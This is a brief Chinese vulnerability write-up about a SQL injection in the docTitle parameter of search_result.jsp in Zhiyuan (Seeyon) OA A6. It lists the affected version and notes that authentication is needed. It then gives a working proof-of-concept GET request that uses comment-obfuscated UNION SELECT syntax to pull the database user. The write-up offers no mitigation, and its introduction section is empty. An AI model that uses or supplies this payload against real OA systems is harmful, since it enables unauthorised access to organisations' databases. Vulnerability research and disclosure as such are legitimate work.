致远OA A6 search\_result.jsp sql注入漏洞
========================================

一、漏洞简介
------------

二、漏洞影响
------------

致远OA A6

三、复现过程
------------

##### 漏洞位置:

    /yyoa/oaSearch/search_result.jsp

##### 漏洞详情:

    版本：A6
    注意：需登录账户
    注入发生在search_result.jsp文件中的docTitle参数

##### 请求方式:

    Get

##### POC:

    http://www.0-sec.org/yyoa/oaSearch/search_result.jsp?docType=协同信息&docTitle=1'and/**/1=2/**/ union/**/all/**/select/**/user(),2,3,4,5%23&goal=1&perId=0&startTime=&endTime=&keyword=&searchArea=notAr

